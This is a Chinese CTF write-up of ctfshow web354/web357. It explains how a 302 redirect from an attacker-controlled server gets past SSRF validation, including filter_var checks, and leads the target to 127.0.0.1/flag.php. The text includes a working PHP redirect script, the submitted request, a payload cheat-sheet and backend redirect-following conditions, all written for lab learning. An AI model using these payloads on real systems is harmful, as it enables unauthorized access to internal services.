

## 一句话概括

校验代码作用在**用户提交的那个 URL** 上，而真正被访问的是**跳转之后产生的地址**。只要在中间放一台自己的服务器回一个 `302 Location: http://127.0.0.1/...`，第一次请求看到的是合法的公网地址（校验通过），第二次请求已经落到内网 —— 而**第二次没有任何人再检查**。

## 本题情景与解题手法

### A. web354：把 302 当跳板

#### 题目形态

SSRF 入口，直接把用户给的地址丢给后端请求。**但校验只针对第一次请求的目标**，跟着跳转就不管了。

#### 第一步：想清楚"跳到哪里"和"谁去跳"

最容易搞混的一点：`Location` 里写的地址**不是你的服务器**，而是**靶机自己内网要访问的地址**。

```text
你提交：  url=http://你的服务器/
靶机访问：GET / HTTP/1.1
          Host: 你的服务器
你的服务器回：HTTP/1.1 302 Found
              Location: http://127.0.0.1/flag.php      ← 靶机自己的回环地址
靶机自己接着访问：http://127.0.0.1/flag.php            ← 它访问它自己
把 flag 内容原路返回给你
```

#### 第二步：在自己的服务器上放一个 302 脚本

```php
<?php
// 部署在你自己的公网服务器上
header("Location: http://127.0.0.1/flag.php", true, 302);
exit;
?>
```

#### 第三步：把地址提交给 SSRF 入口

```http
POST / HTTP/1.1
Host: 靶机地址
Content-Type: application/x-www-form-urlencoded

url=http://你的服务器/redirect.php
```

靶机请求你的服务器 → 收到 302 → 自动跟到 `127.0.0.1/flag.php` → 内容是它自己的 → 回显给你。

### B. web357：`filter_var` 把其它路全堵死了

#### 题目形态

代码里多了这样一行校验：

```php
if (!filter_var($ip, FILTER_VALIDATE_IP,
        FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('error');   // 不合格就拒绝
}
```

#### 第一步：读懂这行校验排除了什么

| 过滤器 | 含义 |
|---|---|
| `FILTER_VALIDATE_IP` | 判断 `$ip` 是不是一个**合法的 IP 字面量** |
| `FILTER_FLAG_NO_PRIV_RANGE` | **不允许私有内网 IP 通过** |
| `FILTER_FLAG_NO_RES_RANGE` | **不允许保留地址段通过** |

被挡掉的地址段：

| 类别 | 网段 | 说明 |
|---|---|---|
| 私有 | `127.0.0.0/8` | 本机回环 |
| 私有 | `10.0.0.0/8` | 大内网 |
| 私有 | `172.16.0.0 – 172.31.255.255` | 中内网 |
| 私有 | `192.168.0.0/16` | 常见路由器内网 |
| 保留 | `0.0.0.0` | 未指定地址 |
| 保留 | `100.64.0.0/10` | 运营商 CGNAT |
| 保留 | `169.254.0.0/16` | 链路本地 |
| 保留 | `224.0.0.0/4` | 组播 |
| 保留 | `240.0.0.0/4` | 保留 |

用一句人话说就是：**只允许访问公网真实 IP。**

#### 第二步：判断哪些绕过手法同时失效

这是本题最关键的一步判断：

| 手法 | 结果 | 原因 |
|---|---|---|
| 换写法（`127.1` / `2130706433` / `0x7F...`） | ❌ 失效 | `filter_var` 会把各种进制**归一成数值**再判断区间，写法再变也是 `127.0.0.1` |
| `0`（等价 `0.0.0.0`） | ❌ 失效 | `0.0.0.0` 在 `NO_RES_RANGE` 里 |
| `localhost` / 任意域名 | ❌ 失效 | 域名**不是 IP 字面量**，`filter_var` 直接返回 false → `!false` = true → 拒绝 |
| **302 跳转** | ✅ **可行** | 校验只作用于**你提交的那个 URL**，跳转后的地址它看不到 |

**注意第三条**：因为校验的是 IP 格式，连"用域名做 DNS 重绑定"这条路也被堵了 —— 你根本没法把一个域名提交进去。这题只能走 302。

#### 第三步：用自己服务器的公网 IP 过校验

`你的公网IP` 是合法的公网 IP，`filter_var` 放行。所以：

```php
<?php
// 部署在自己的公网服务器上，例如 x.x.x.x/demo.php
header("Location: http://127.0.0.1/flag.php", true, 302);
?>
```

```http
url=http://x.x.x.x/demo.php
```

#### 第四步：读回显

```text
x.x.x.x</br>ctfshow{...}
```

前半段是页面自己回显的主机，后半段就是 `127.0.0.1/flag.php` 的内容 —— **靶机被自己的 302 领进了自己的内网**。

### 解题手法一句话总结

> **校验只做第一次** → 第一次请求交给自己的公网服务器（合法、过得去）→ 服务器回 `302 Location: http://127.0.0.1/flag.php` → 跟随跳转**不再校验** → 靶机访问自己的回环地址 → flag 原路回显。

## 原理

### 1. 内网与公网：为什么"内网"值得绕

| 特性 | 内网（私有网络） | 公网（公共网络） |
|---|---|---|
| IP 地址范围 | `10/8`、`172.16/12`、`192.168/16` | 除内网外的所有 IP |
| 可访问性 | 仅组织内部可达 | 全球可达 |
| 路由 | 不在互联网上路由 | 全球互联网路由 |
| 唯一性 | 可重复使用 | 全球唯一 |
| 成本 | 免费 | 需向 ISP 购买 |
| 典型示例 | 家庭 WiFi、公司局域网 | 搜索引擎、云服务器 |

三大私有网段：

```text
10.0.0.0    – 10.255.255.255    大型企业网络，约 1677 万个地址
172.16.0.0  – 172.31.255.255    中型组织网络，约 104 万个地址
192.168.0.0 – 192.168.255.255   家庭/小型办公网络，约 6.5 万个地址
```

**内网才是真正有货的地方**：管理后台、数据库、缓存、内部 API 大多只在内网开放，外网连 80 端口都摸不到。

### 2. 完整的攻击链

```text
攻击者 → 目标网站（有 SSRF）→ 攻击者的公网服务器 → 302 重定向 → 127.0.0.1 → 返回本机服务数据
```



逐帧拆开：

```text
攻击者浏览器 → 提交 url 给漏洞网站
             ↓
漏洞网站服务器 → DNS 解析 攻击者域名 → 公网 IP（这是校验看到的 IP）
             → 校验：是公网 IP → ✅ 通过
             → HTTP 请求 http://攻击者服务器/redirect
             ← 302 Found
               Location: http://127.0.0.1/flag.php
             → 自动跟随重定向 → 请求 http://127.0.0.1/flag.php（不再校验）
             ← 拿到本机 flag.php 的内容
             → 把内容返回给攻击者浏览器 ✅
```

### 3. 为什么"域名解析"这一步是必需的

很多防护代码长这样：

```php
function check_ssrf($url) {
    $host = parse_url($url, PHP_URL_HOST);
    $ip   = gethostbyname($host);      // ← 域名解析发生在这里
    if (is_internal_ip($ip)) {
        die('Blocked: Internal IP address!');
    }
    return file_get_contents($url);    // ← 真正请求
}
```

如果攻击者直接写 `http://127.0.0.1:7777/flag.php`，`$host` 就是 `127.0.0.1`，第一关当场被拦。

**用一个域名（或自己的公网 IP）就能让第一关看到"安全的公网地址"**，把真正的目标藏进 `Location` 里，等过了关再转向。域名解析在这里的作用是**制造"检查时"与"请求时"的差异**：

| 阶段 | 检查时 | 请求时 |
|---|---|---|
| 目标 | `攻击者服务器` | `攻击者服务器` → 重定向 → `127.0.0.1` |
| 解析结果 | 公网 IP ✓ 通过检查 | 公网 IP → 重定向到内网 IP |
| 看起来 | 安全 | **危险** |

### 4. `127.0.0.1` 的"相对性"

| | 攻击者浏览器 | 漏洞网站服务器 |
|---|---|---|
| 网络位置 | 攻击者本地网络 | 目标机构内部网络 |
| 访问 `127.0.0.1` | 访问攻击者自己电脑 | **访问漏洞网站服务器本身** |
| 结果 | 无用 | 拿到敏感内部信息 |

`127.0.0.1` 的特性正好适合当跳转目标：

- **绝对可达**：每台机器都有这个地址，不需要知道服务器的真实内网 IP（可能是 `172.19.1.110`、`10.0.1.20` 之类），也不受网络配置影响
- **一定存在服务**：CTF 题目把 flag 服务挂在 `127.0.0.1` 的某个端口上

**为什么不是别的端口**：`80`/`443` 可能被其它 Web 服务占用；`3306` MySQL 需要认证；`22` SSH 需要密钥；而 `7777` 这类端口通常是题目**特意开设的测试服务**，没有任何认证。

### 5. 什么时候 cURL 会跟随跳转

这一点直接决定 302 能不能打通：

| 后端实现 | 默认行为 | 302 能否生效 |
|---|---|---|
| `file_get_contents($url)` | **默认跟随 3xx** | ✅ 直接可行 |
| `curl_exec()` | **默认 `CURLOPT_FOLLOWLOCATION = 0`，不跟随** | 需要业务显式开了才可行 |
| `curl_exec()` + `CURLOPT_FOLLOWLOCATION, 1` | 跟随 | ✅ 可行 |
| 跟随但设了 `CURLOPT_REDIR_PROTOCOLS` 只允许 http/https | 跟随，但换协议被拒 | 跳到 `http://127.0.0.1` 仍可行；跳到 `file://` 不行 |

**所以 302 绕过的前提是"目标会跟随跳转"** —— 如果一发 302 过去毫无反应，先确认后端是哪种实现。

### 6. 重定向在正常业务里到处都是

302/301 不是异常现象，它是 Web 的常规机制，这也是这类绕过难以彻底禁绝的原因：

| 场景 | 例子 |
|---|---|
| 旧 URL / 站点改版 | `/old-product.html` → 301 → `/products/new-product` |
| URL 结构变更 | `/article.php?id=123` → 301 → `/articles/2024/seo-tips` |
| 登录鉴权流程 | `/admin` → 302 → `/login?return_url=/admin` |
| 权限不足 | `/private-messages` → 302 → `/upgrade-plan` |
| HTTP 强制跳 HTTPS | `http://example.com` → 301 → `https://example.com` |
| 域名标准化 | `http://www.example.com` → 301 → `https://example.com` |
| 大小写归一 | `http://EXAMPLE.COM` → 301 → `https://example.com` |
| 地域/语言分流 | `global-store.com` → 302 → `china-store.com/zh-CN` |
| 营销与追踪链接 | `/summer-sale` → 302 → `/campaigns/summer-2024?source=email` |
| 短链接服务 | `short.url/abc123` → 301 → 很长的原始 URL |
| 临时维护 | `/api` → 302 → `/maintenance-page` |

**攻击者做的事情，只是把上面任意一种"合法重定向"的目标换成了 `127.0.0.1`。**

## 利用条件

1. **有 SSRF 入口**，且校验只作用于用户提交的 URL
2. **攻击者有一台公网可达、能自定义响应的服务器**（自己的 VPS，或任意可控的开放重定向点）
3. **后端会跟随 3xx 跳转**（`file_get_contents` 默认会；curl 需 `CURLOPT_FOLLOWLOCATION`）
4. **跳转目标能看到内网/回环服务**（如 `127.0.0.1:端口/flag.php`）

## Payload 速查

| 目的 | 内容 |
|---|---|
| 攻击者服务器上的跳转脚本 | `<?php header("Location: http://127.0.0.1/flag.php", true, 302); exit; ?>` |
| 提交给 SSRF 的参数 | `url=http://x.x.x.x/demo.php` |
| 跳到本机其它端口 | `Location: http://127.0.0.1:7777/flag.php` |
| 跳到你自己的另一台机器 | `Location: http://<内网IP>/flag.php` |
| 用 301 代替 302 | `header("Location: ...", true, 301);`（多数客户端一样跟随） |
| 用 `Refresh` 头代替 | `header("Refresh: 0;url=http://127.0.0.1/flag.php");` |

## 完整示例

### 攻击者服务器上的 `demo.php`

```php
<?php
// 部署在你的公网服务器上，例如 /var/www/html/demo.php
$target = "http://127.0.0.1/flag.php";   // 这一行由攻击者决定，可以任意改

header("HTTP/1.1 302 Found");
header("Location: " . $target);
exit();   // 不返回任何实际内容
?>
```

### 请求与响应

```http
POST / HTTP/1.1
Host: 靶机地址
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

url=http://x.x.x.x/demo.php
```

响应：

```text
x.x.x.x</br>ctfshow{...}
```

前半段是页面回显的请求主机，后半段是 `127.0.0.1/flag.php` 的真实内容。

> 部署这套跳转服务器时如果 PHP 没跑起来（页面直接把 `<?php ... ?>` 源码吐出来），属于环境问题，排查方法见 07 的「攻击者服务器搭建与排错」一节。

## 踩坑与备注

- **`Location` 指向的是"靶机的内网"，不是"你的服务器"**：这是最容易搞反的一点。你的服务器只负责**发出跳转指令**，真正被打的是靶机自己。
- **PHP 没部署时会把源码当静态文件吐出来**：原笔记就踩过这个坑 —— 第一次提交 `url=http://x.x.x.x/my6n.php` 时返回的是 `<?php header("Location: ...") ?>` 源码本身，因为服务器上 PHP 没安装，Nginx 把 `.php` 当纯文本返回了。原因记的是「php未部署」，装好 PHP-FPM 后即恢复正常，回显变成 `x.x.x.x</br>ctfshow{...}`。
- **`filter_var` 是"数值级"校验**：它会把八进制/十六进制/十进制整数**统一归一后判断区间**，所以写法变形对它无效；它要求输入是合法 IP 字面量，所以域名类绕过也无效。见到它，直接走 302。
- **原文里 web357 的 flag 值为 `ctfshow{a39720d5-e76b-4702-bac5-ecf42dc4be80}`**（一次性题解值，仅作记录）。
- **`exit()` 不能省**：不 `exit` 的话 PHP 会继续执行并输出内容，302 的响应体会变得乱七八糟，某些客户端可能因此不跟随跳转。
- **原文一处术语需要更正**：`302重定向绕过.md` 在"第 3 步"把小标题写成了「DNS 重绑定攻击发生」，但从流程看这一步做的是 **302 重定向**，与 DNS 重绑定（同一个域名两次解析结果不同，见 04）是两种不同的机制，本文已按 302 叙述。
- **原文重复段落已合并**：「127.0.0.1 的特殊属性 / 绝对可达性」那段在原文中出现两次，内容一致，已去重。
